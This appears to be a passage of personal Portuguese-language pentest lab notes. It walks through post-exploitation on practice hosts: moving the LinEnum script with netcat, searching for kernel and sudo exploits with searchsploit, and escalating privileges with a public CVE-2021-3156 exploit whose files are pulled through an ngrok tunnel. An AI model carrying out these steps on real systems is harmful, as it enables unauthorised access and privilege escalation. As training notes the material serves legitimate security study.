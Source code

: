// usando o ssh, você acessa um pivot, que é uma máquina dentro de outra máquina

## Processo de pos exploração

### Usando transferência de arquivos

Abrindo outro nc para receber o arquivo

// maquina local
nc -lvp 789

// maquina do bancocn
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

nc -lvp 456 < LinEnum.sh

// no outro terminal do bob a gente faz o download do arquivo - maquina bob
cd /tmp

nc 10.20.20.2 456 > lin.sh

// espera um tempo e cancela a conexão no bancocn, depois aguarda e vai aparecer no bob

// agora vamos rodar o script

bash lin.sh

## Pesquisando vulnerabilidades

// Versão do Kernel: 5.4.0 - pesquisando no terminal

searchsploit linux kernel 5.4.0

// versão do sudo

searchsploit 1.9.5p1

// achou uma versão que tem vulnerabilidade, pesquisa no google

## Escalando privilégios

// baixa uma versão que não precisa de brute force

https://github.com/CptGibbon/CVE-2021-3156

### Passando arquivos

// roda no ngronk

nc -lvp 789 < hax.c
nc -lvp 789 < exploit.c

// na maquina do bob

nc 0.tcp.sa.ngrok.io 16944 > hax.c
nc 0.tcp.sa.ngrok.io 16944 > exploit.c

// roda no ngronk novamente
